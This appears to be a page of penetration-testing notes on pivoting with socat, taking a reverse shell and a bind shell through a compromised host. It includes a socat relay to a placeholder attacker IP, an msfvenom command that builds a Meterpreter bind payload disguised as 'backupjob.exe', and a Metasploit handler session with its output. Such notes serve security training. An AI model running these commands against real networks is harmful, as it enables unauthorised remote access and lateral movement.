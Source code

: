 Socat is a bidirectional relay tool that can redirect traffic coming from one channel to the other, without the need of SSH.

### Socat -Reverse Shell

Executing the following command on the compromised host will create a route from the target's port 8080 to our `<PORT>`.

```shell-session
socat TCP4-LISTEN:8080,fork TCP4:<ATTACKING IP>:<PORT>
```

So, everything coming from the internal network to the pivot's 8080 will be redirected to our `<PORT>` .

In order to get our reverse shell connection back or whatsoever, we need to transfer our payload to the internal host with whatever method above. We can for example use the SSH and SOCKS Tunneling method, execute the payload to hit back on the pivot's `<INTERNAL IP>:<8080>` , which will then be redirected to our attacking host.&#x20;

We can setup the metasploit listener as in:[#establishing-the-connection-internal-network-attack-host](pivoting-tunneling-and-port-forwarding.md#establishing-the-connection-internal-network-attack-host "mention")to use the utility of the meterpreter shell.

### Socat - Bind Shell

Now instead of listening for an incoming connection from the internal host, we will setup a bind shell listener on target internal host, and redirect our traffic from the attacking host, through socat, up to the internal host listener.

```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
```

And then run Socat on the pivot:&#x20;

```
socat TCP4-LISTEN:8080,fork TCP4:<WINDOWS INTERNAL IP>:8443
```

This will forward anything from 8080 to the target's 8443.

Now setup metasploit's listener:&#x20;

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080

```
